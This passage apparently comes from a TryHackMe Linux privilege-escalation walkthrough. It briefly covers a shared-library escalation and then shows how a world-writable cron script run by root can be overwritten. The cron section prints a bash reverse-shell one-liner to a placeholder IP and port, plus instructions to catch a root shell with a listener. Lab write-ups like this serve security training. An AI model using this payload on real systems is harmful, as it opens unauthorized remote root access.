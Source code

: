 Initially when we changed the name of the library file that we created we got an error saying that some function was not found but after adding the function that was required by the library file we where able to get root shell.

1. **Read and follow along with the above.**

> No answer required

### Task 8 : Cron Jobs - File Permissions

Cron jobs are programs or scripts which users can schedule to run jobs at different times automatically. The Cron table (crontab) stores the list of all the cron jobs. The system-wide crontab is located at /etc/crontab.

![Listing Cron Jobs](images/thm-linux-privesc/cron-jobs.png)

By looking at the tasks we can see that there are two scripts that are scheduled to run every minute. Another thing that we observe is that both the tasks are scheduled by the "root" user so if we can modify the script the new code will also run with root privileges.

Looking at the permissions on the script file we see that it is writable by anyone. Change the content of the file with the following:

```
#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

**Note:** Replace the IP Address in the script with the TryHackMe VPN IP Address which can be found by running "ip a show tun0" on your Kali machine and looking under inet.

Then we can setup an listener on your Kali Machine which should give us an root shell (should take less than a minute to get an connection)
